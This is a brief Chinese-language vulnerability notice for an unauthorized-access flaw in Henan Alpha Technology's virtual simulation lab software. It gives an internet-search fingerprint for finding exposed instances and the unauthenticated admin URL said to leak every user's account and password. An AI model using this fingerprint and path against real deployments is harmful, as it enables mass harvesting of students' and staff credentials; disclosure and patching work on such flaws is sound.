

# 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息。

参考阅读：

- http://www.0dayhack.net/index.php/1702/

## 漏洞影响

```
虚拟仿真实验室
```

## 网络测绘

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```



成功获取所有用户的账号密码信息
